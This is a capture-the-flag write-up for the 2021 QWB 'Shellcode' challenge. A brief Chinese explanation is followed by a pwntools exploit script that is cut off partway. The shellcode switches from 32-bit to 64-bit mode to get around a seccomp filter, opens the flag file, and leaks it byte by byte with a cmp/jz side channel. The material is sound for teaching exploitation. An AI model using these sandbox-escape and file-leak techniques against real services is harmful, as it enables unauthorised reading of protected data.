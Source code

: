 ## Shellcode | SOLVED | H3h3QAQ

![image (7)](2021qwb/image%20(7).png)

Read和mmap没有被禁。

先mmap出一片空间，然后切换位数，再次read shellcode，再把flag读入内存，循环用cmp一位一位判断，最后拼接得到flag。

```python
from pwn import *
# context(log_level = 'debug')
 
def pwn(p, index, ch):
    append_x86 = '''
    push ebx
    pop ebx
    '''
    shellcode_open = '''
    mov esp,0x40404140
    push 0x67616c66
    push esp
    pop ebx
    xor ecx,ecx
    mov eax,5
    int 0x80
    mov ecx,eax
    '''
    shellcode_flag = '''
    push 0x33
    push 0x40404089
    retfq
    mov rdi,rcx
    mov rsi,rsp
    mov rdx,0x70
    xor rax,rax
    syscall
    '''
     # cmp
    if index == 0:
        shellcode_flag += "cmp byte ptr[rsi+{0}], {1}; jz $-3; ret".format(index, ch)
    else:
        shellcode_flag += "cmp byte ptr[rsi+{0}], {1}; jz $-4; ret".format(index, ch)
    shellcode_open = asm(shellcode_open)
    shellcode_flag = asm(shellcode_flag,arch = 'amd64',os = 'linux')
    shellcode = ''
    append = '''
    push rdx
    pop rdx
    '''
    shellcode_mmap = '''
    push 0x40404040
    pop rdi
    push 0x7e
    pop rsi
    push 0x40
```